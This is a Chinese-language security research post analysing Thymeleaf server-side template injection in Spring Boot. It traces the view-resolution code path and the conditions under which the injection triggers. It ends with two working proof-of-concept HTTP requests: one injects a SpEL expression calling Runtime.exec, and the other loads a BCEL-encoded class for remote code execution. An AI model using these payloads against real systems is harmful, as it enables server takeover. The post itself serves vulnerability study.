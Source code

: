 ```yaml
---
date: 2021/8/10 22:00:00
---
```


# spring-boot-thymeleaf-ssti

spring-boot下的thymeleaf模板注入挺有趣的，本文尝试对该漏洞一探究竟，如有谬误，还请同学们指教。

`https://github.com/veracode-research/spring-view-manipulation`

本文使用该项目给出的demo进行调试分析，其中，`spring-boot`版本为`2.2.0.RELEASE`，

## 启动

### 自动装配

首先，我们知道，在配置好spring-boot情况下，加入如下thymeleaf的mvn依赖，就可以实现thymeleaf的自动配置。

```xml
 <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
 </dependency>
```

`thtmyleaf`的自动配置类为`org.springframework.boot.autoconfigure.thymeleaf.ThymeleafAutoConfiguration`

![ThymeleafAutoConfiguration](spring-boot-thymeleaf-ssti/ThymeleafAutoConfiguration.png)



### 排序viewResolvers

我们可以看到，在`o.s.w.s.v.ContentNegotiatingViewResolver#initServletContext`方法中，对`viewResolvers`进行初始化，初始化后包含了多个视图解析器（模板引擎），包括 `BeanNameViewResolver`、`ViewResolverComposite`、`InternalResourceViewResolver`、`ThymeleafViewResolver`。

![](spring-boot-thymeleaf-ssti/ContentNegotiatingViewResolver_initServletContext.png)

查看`ThymeleafViewResolver`源码，发现其`order`值为`Integer.MAX_VALUE`，通过`sort`方法排序过后的结果如下图所示（`BeanNameViewResolver`也是Integer.MAX_VALUE）：

![](spring-boot-thymeleaf-ssti/viewResolvers_sorted.png)

具体代码流可以参考这里的堆栈信息：

```
getOrder:282, ThymeleafViewResolver (org.thymeleaf.spring5.view)
...
initServletContext:206, ContentNegotiatingViewResolver (org.springframework.web.servlet.view)
...
refresh:550, AbstractApplicationContext (org.springframework.context.support)
...
refreshContext:397, SpringApplication (org.springframework.boot)
run:315, SpringApplication (org.springframework.boot)
...
```

## 视图解析

### 获得视图解析器

`org.springframework.web.servlet.DispatcherServlet#render`：用户发起的请求触发的代码会走到这里获取视图解析器，随后从`resolveViewName`获得最匹配的视图解析器。

![](spring-boot-thymeleaf-ssti/DispatcherServlet_render.png)

`org.springframework.web.servlet.view.ContentNegotiatingViewResolver#resolveViewName`：在该方法中，先是通过`getCandidateViews`筛选出`resolveViewName`方法返回值不为null（即有效的）的视图解析器；之后通过`getBestView`方法选取“最优”的解，`getBestView`中的逻辑简而概之，优先返回重定向的视图动作，然后就是根据用户HTTP请求的`Accept: `头部字段与`candidateViews`数组中视图解析器的排序获得最优解的视图解析器，而前面所讲到的`viewResolvers`的排序正是参与决定了这一排序决策。

![](spring-boot-thymeleaf-ssti/ContentNegotiatingViewResolver_resolveViewName.png)

```
resolveViewName:227, ContentNegotiatingViewResolver (org.springframework.web.servlet.view)
resolveViewName:1414, DispatcherServlet (org.springframework.web.servlet)
render:1350, DispatcherServlet (org.springframework.web.servlet)
processDispatchResult:1118, DispatcherServlet (org.springframework.web.servlet)
doDispatch:1057, DispatcherServlet (org.springframework.web.servlet)
...
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
...
```

### 获得视图解析器名称

`org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter#invokeHandlerMethod`：该方法为获取视图名称的关键点，其中首先会调用`invokeAndHandle`（下面会讲该方法内的逻辑），之后返回`getModelAnView`方法执行结果的返回值。

![](spring-boot-thymeleaf-ssti/RequestMappingHandlerAdapter_invokeHandlerMethod.png)

`o.s.w.s.m.m.a.ServletInvocableHandlerMethod#invokeAndHandle`:在该方法中，会尝试获取前端控制器的return返回值，也就是说，如果前端Controller返回值中直接拼接了用户的输入，相当于控制了该视图名称；另外，当用户自定义的Controller方法的入参中添加了`ServletResponse`，这里的`invokeForRequest`中会触发`ServletResponseMethodArgumentResolver#resolveArgument`将`mavContainer`的`requestHandled`设置为`true`，而` mavContainer.isRequestHandled()`为`true`导致了`getModelAndview（...）`返回值为null，也就不会有后面的漏洞触发流程。

![](spring-boot-thymeleaf-ssti/ServletInvocableHandlerMethod_invokeAndHandle.png)

`org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter#getModelAndView`：如果`mavContainer.isRequestHandled()`为`true`，直接返回null。

![](spring-boot-thymeleaf-ssti/RequestMappingHandlerAdapter_getModelAndView.png)



`org.springframework.web.servlet.DispatcherServlet#applyDefaultViewName`：另外，如果前端Controller的方法返回值为null，即void方法类型，前面的流程无法拿到视图名称，后面会调用`applyDefaultViewName`方法将URI路径作为视图名称。

`org.springframework.web.servlet.view.DefaultRequestToViewNameTranslator#transformPath`：在将URI设置为视图名称的代码流程中，调用了该方法对URI进行格式调整，其中包括去除URI扩展名称。

![](spring-boot-thymeleaf-ssti/DefaultRequestToViewNameTranslator_transformPath.png)

```
...
getViewName:172, DefaultRequestToViewNameTranslator (org.springframework.web.servlet.view)
getDefaultViewName:1391, DispatcherServlet (org.springframework.web.servlet)
applyDefaultViewName:1087, DispatcherServlet (org.springframework.web.servlet)
doDispatch:1046, DispatcherServlet (org.springframework.web.servlet)
。。。
```



### 使用视图解析器

`org.thymeleaf.spring5.view.ThymeleafView#renderFragment`：这里是漏洞触发的关键逻辑点之一，如果用户的输入拼接到了视图名称中，即控制了`viewTemplateName`变量。通过浏览代码，我们可以了解到，首先视图模板名称中需要包含`::`字符串，否则不会走入表达式执行代码中。

![](spring-boot-thymeleaf-ssti/ThymeleafView_renderFragment.png)

上图的`o.t.s.e.StandardExpressionParser#parseExpression`不重要，我们这里略过，其随后会走到`org.thymeleaf.standard.expression.StandardExpressionPreprocessor#preprocess`方法：这里的`input`变量就是上面`viewTemplateName`前后分别拼接了`~{`、`}`后的字符串，随后这里使用`PREPROCESS_EVAL_PATTERN`正则对`input`进行匹配，正则内容为`\_\_(.*?)\_\_` ，随后获取正则命中后的元组内容，即非贪婪匹配的`.*?`，随后讲该元组内容传入`parseExpression`方法并在这里触发了EL表达式代码执行。

![](spring-boot-thymeleaf-ssti/StandardExpressionPreprocessor_preprocess.png)

## POC构造

由触发的代码流程梳理可以得出触发表达式的条件：

①用户传入的字符串拼接到了Controller方法的返回值中且返回的视图非重定向（前面流程可用知晓，重定向优先级最高），或URI路径拼接了用户的输入且Controller方法参数中不带有`ServletResponse`类型的参数；

②视图引擎名称中需要包含`::`字符串；

③被执行表达式字符串前后需要带有两个下划线，即`__${EL}__`；

④如果Payload在URI中，由于URI格式化的原因且我们的Payload中带有`.`符号，所以需要在URI末尾添加`.`。

于是，我们可以构造出与作者有所差异的POC

```
POST /path HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

lang=::__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}_______________
```

如果我们要利用该漏洞干点啥，建议还是结合BCEL一类的方式来利用更加方便（不过JDK251后BCEL使用不了），win弹计算器：

```
POST /path HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 1010

lang=::__${"".getClass().forName("$$BCEL$$$l$8b$I$A$A$A$A$A$A$AePMO$c2$40$U$9c$85B$a1$W$84$e2$f7$b7$t$c1$83$3dx$c4x1z$b1$w$R$83$e7$ed$b2$c1$c5$d2$92R$8c$fe$o$cf$5e$d4x$f0$H$f8$a3$8c$af$x$R$a3$7bx$_o$e6$cdL$de$7e$7c$be$bd$D$d8$c7$b6$F$Ts$W$e6$b1P$c0b$da$97L$y$9bX1$b1$ca$90$3fP$a1J$O$Z$b2$f5F$87$c18$8a$ba$92a$d6S$a1$3c$l$P$7c$Z_q$3f$m$c4$f1$o$c1$83$O$8fU$3aO$40$p$b9Q$a3$94$T$d1$c0$f5$a5$I$dc$W$7f$I$o$dem2$U$OD0$b1$$$b5$T$$n$cf$f8P$cb$u$9c$c1jG$e3X$c8$T$95$da$d8$T$d5$5e$9f$dfq$h$F$UM$ac$d9X$c7$GEP$aa$b0$b1$89$z$86Z$ca$bb$B$P$7b$ee$f1$bd$90$c3DE$nC$e5o8A$d3$c5$L$bf$_E$c2P$9dB$97$e30Q$D$ca$b5z2$f9$Z$e6$eb$N$ef$df$O$dda$c8$7b$v$Yv$ea$bf$d8v$S$ab$b0$d7$fc$zh$c5$91$90$a3Q$T$db$c8$d3$7f$a7$_$D$96$deB$d5$a2$c9$a5$ce$a8$e7v_$c0$9e4$3dC5$af$c1$Ml$aa$f6$f7$CJ$uS$_$60$f6G$7c$a1$cd$80$f2$x2N$f6$Z$c6$f5$p$8c$d3$t$8d$VI$97CV$bb90$a8$9a$84YH$3f$b2D$a8$ad$fd$81$8af2$9e$89$wH$e8h$b8$f6$Fz7$85$d0$t$C$A$A", true, "".getClass().forName("com.sun.org.apache.bcel.internal.util.ClassLoader").newInstance())}_______________
```

## 结语

spring-boot的自动化配置为开发部署带来了极大的便捷，这也对我们深入底层问题提搞了学习成本。该模板注入问题十分巧妙，起初让人感到不可思议。